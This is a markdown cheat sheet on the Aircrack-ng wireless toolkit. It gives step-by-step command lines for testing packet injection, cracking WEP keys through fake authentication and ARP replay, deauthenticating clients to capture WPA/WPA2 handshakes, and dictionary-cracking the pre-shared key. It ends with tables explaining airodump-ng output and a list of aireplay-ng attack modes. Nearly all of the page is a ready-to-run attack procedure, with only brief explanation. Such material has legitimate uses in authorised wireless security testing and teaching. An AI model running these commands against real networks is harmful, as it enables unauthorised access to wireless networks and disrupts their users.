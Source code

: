 # Aircrack-ng :
   * [Injection test](https://www.aircrack-ng.org/doku.php?id=injection_test)
     ##### The injection test determines if your card can successfully inject and determine the ping response times to the Access Point (AP)
     * List wireless interfaces
      ```bash
         iwconfig # df 
      ```
     * Start the wireless interface in monitor mode on a specific AP channel
      ```bash 
          airmon-ng start wlan0 8
      ```
     * Test the injection capability of the wireless device to the AP
      ```bash 
          aireplay-ng -9 -e teddy -a 00:14:6C:7E:40:80 wlan0mon
      ```
   ## WEP crack
   * [Flowchart : Wep Cracking](http://www.aircrack-ng.org/img/simple-wep-crack.gif)
   * [Crack WEP (with client)](https://www.aircrack-ng.org/doku.php?id=simple_wep_crack) (fake authentication combined with ARP request replay technique)
    
     * List wireless interfaces
       * **iwconfig**
     * Start the wireless interface in monitor mode on the specific AP channel
       *  **airmon-ng start wlan0**
     * Show available AP
       * **airodump-ng wlan0mon**
     * Start airodump-ng to capture the IVs
       * **airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w output wlan0mon**
     * Use aireplay-ng to do a fake authentication with the access point (To associate with an access point)
       * **aireplay-ng -1 0 -e teddy -a 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0mon**
     * Start aireplay-ng in ARP request replay mode to inject packets
       * **aireplay-ng -3 -b 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0mon**
     * Run aircrack-ng to crack key using the IVs collected
       * **aircrack-ng -b 00:14:6C:7E:40:80 output*.cap**

   * [Crack WEP (without client)](https://www.aircrack-ng.org/doku.php?id=how_to_crack_wep_with_no_clients)

  # WAP crack
  
   * Crack WPA/WPA2 pre-shared key
     * Start airodump-ng to collect authentication handshake
       * **airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w psk wlan0mon**
     * Use aireplay-ng to deauthenticate the wireless client
       * **aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:FD:FB:C2 wlan0mon**
     * Run aircrack-ng to crack the pre-shared key
       * **aircrack-ng -w password.lst -b 00:14:6C:7E:40:80 psk*.cap**

  # WPS crack pin

   * [The upper data block shows the access points found](https://www.aircrack-ng.org/doku.php?id=newbie_guide)

      Name | Description
      ------------ | -------------
      **BSSID**   |	The MAC address of the AP|
      **PWR**     |	Signal strength. Some drivers don't report it|
      **Beacons** |	Number of beacon frames received. If you don't have a signal strength you can estimate it by the number of beacons: the more beacons, the better the signal quality|
      **Data** 	|Number of data frames received|
      **CH** 	    |Channel the AP is operating on|
      **MB**      |	Speed or AP Mode. 11 is pure 802.11b, 54 pure 802.11g. Values between are a mixture|
      **ENC**     |	Encryption: OPN: no encryption, WEP: WEP encryption, WPA: WPA or WPA2 encryption, WEP?: WEP or WPA (don't know yet)|
      **ESSID**   |	The network name. Sometimes hidden |

   * [The lower data block shows the clients found](https://www.aircrack-ng.org/doku.php?id=newbie_guide) 

      Name | Description
      ------------ | -------------
      | **BSSID**   | The MAC of the AP this client is associated to |
      | **STATION** | The MAC of the client itself |
      | **PWR**     | Signal strength. Some drivers don't report it  |
      | **Packets** | Number of data frames received  |
      | **Probes**  | Network names (ESSIDs) this client has probed |

   * [different attacks](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)

     * **--deauth count** : deauthenticate 1 or all stations (-0)
     * **--fakeauth delay** : fake authentication with AP (-1)
     * **--interactive** : interactive frame selection (-2)
     * **--arpreplay** : standard ARP-request replay (-3)
     * **--chopchop** : decrypt/chopchop WEP packet (-4)
     * **--fragment** : generates valid keystream (-5)
     * **--caffe-latte** : query a client for new IVs (-6)
     * **--cfrag** : fragments against a client (-7)
     * **--test** : tests injection and quality (-9)
     
     
